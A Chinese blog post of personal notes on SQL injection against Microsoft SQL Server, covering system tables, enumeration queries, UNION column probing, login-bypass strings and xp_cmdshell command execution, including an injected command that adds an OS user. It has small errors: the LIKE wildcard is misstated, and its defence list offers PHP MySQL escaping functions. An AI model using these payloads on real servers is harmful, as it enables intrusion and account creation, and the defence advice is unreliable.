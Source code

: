 ```yaml
---
title: MSSQLI总结
date: 2018-04-14 20:43:04
categories: Web
tags:
description:
---
```


记录自己的一些小笔记
<!-- more -->

# MSSQL知识储备

## 系统数据库
 - `master`
 Master 数据库记录SQLServer 系统的所有`系统级别信息（表sysobjects）`,`登录账号（表sysusers）`和`系统配置`,`其他的数据库（表sysdatabases）`，`数据库文件的位置`。Master 数据库记录SQLServer的初始化信息，他始终指向一个可用的最新 Master 数据库备份。
 - `model`
 model数据库是`建立所有用户数据库时的模板`。当你建立一个新数据库时，SQL Server会把model数据库中的所有对象建立一份拷贝并移到新数据库中。在模板对象被拷贝到新的用户数据库中之后，该数据库的所有多余空间都将被空页填满。
 - `tempdb`
 	tempdb数据库是一个非常特殊的数据库，供所有来访问你的SQL Server的用户使用。这个库用来`保存所有的临时表、存储过程和其他SQL Server建立的临时用的东西`。例如，排序时要用到tempdb数据库。数据被放进tempdb数据库，排完序后再把结果返回给用户。每次SQL Server重新启动，它都会清空tempdb数据库并重建。永远不要在tempdb数据库建立需要永久保存的表。
 - `msdb`
 Msdb 数据库供 SQLServer `代理程序调度警报和作业以及记录操作员时使用`。比如，我们备份了一个数据库，会在表backupfile中插入一条记录，以记录相关的备份信息。
 - 实例数据库
  - `Northwind`
  - `pubs`

## 系统表
![systable](systable.png)
比较重要的几点
 - 主数据库
   - `sysdatabases` `存放所有数据库信息`
     - `name` 库名称
     - `dbid` 库ID
 - 每个数据库
   - `sysobjects` `在数据库内创建的每个对象（约束、默认、日志、规则、存储过程）`
     - `name` 对象名
     - `id`   对象ID
     - `uid` 对象的用户ID
     - `xtype` 对象类型
       - U(用户表), S(系统表),V(视图),P(存储过程)
   - `syscolumns` `该库的所有字段信息`
     - `name` 字段名称
     - `id`   表ID
     - `colid` 字段ID
   - `sysusers` `用户信息`

[在具体可以看这](https://www.path8.net/tn/archives/3298)

## 常用命令

### 注释符
 - `--`
 - `/*`

### LIKE通配符
 - `-` 匹配一个字符
 - `%` 匹配一个或多个字符

### 字符串连接符
 - `SELECT 'a'+'d'+'mi'+'n';`

### 版本
 - `@@VERSION`

### 当前数据库
 - `DB_NAME()`

### 联合查询相关
查看其他数据库   master.dbo.sysdatabases(库名.所有者.表名)

 - `SELECT name FROM master..sysdatabases`  查看所有库
 - `SELECT name,id FROM sysobjects WHERE xtype='U'`   查询某库的所有用户表
 - `SELECT name FROM syscolumns WHERE id=表id`   查询某表所有列 --表ID就是sysobjects的id字段

 - `SELECT col_name(object_id('users'),1)` 也可以拿到列
 - `SELECT name FROM syscolumns WHERE id=object_id('users')`  也可以拿到列

**也可以使用information_schema数据库**
![information_schema](information_schema.png)



### 执行shell命令
 - `select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell'` 查询是否能使用
 - `exec master..xp_cmdshell 'whoami'`   2005 2008 默认关闭
 - `select * from openrowset('sqloledb','trusted_connection=yes','set fmtonly off exec master..xp_cmdshell ''whoami''')`
 - `SELECT * FROM users WHERE username ='' exec master.dbo.xp_cmdshell 'net user admins /add'--'`

### 条件语句
 - `IF 1=1 SELECT 'true' ELSE SELECT 'false'`  IF是不能再SELECT语句中使用的
 - `SELECT CASE WHEN 1=1 THEN true ELSE false END`

### 时间
 - `IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0'`




# 利用SQL

## 联合注入

### 测试列数

#### GROUP BY
```
SELECT username, password FROM users WHERE id = '1';
1' ORDER BY 1--	True
1' ORDER BY 2--	True
1' ORDER BY 3--	False - 查询使用了2列
-1' UNION SELECT 1,2--	True
```

#### GROUP BY / HAVING
```
SELECT username, password FROM users WHERE id = '1';

1' HAVING 1=1										-- 错误
1' GROUP BY username HAVING 1=1--					-- 错误
1' GROUP BY username, password HAVING 1=1--			-- 正确
Group By可以用来测试列名
```




## MSSQL万能密码
 - `' or '1='1`
 - `' or '1'='1'--`





# 防御
## 过滤函数
 - `addslashes()`
 - `mysql_real_escape_string()`
 - `mysql_escape_string()`
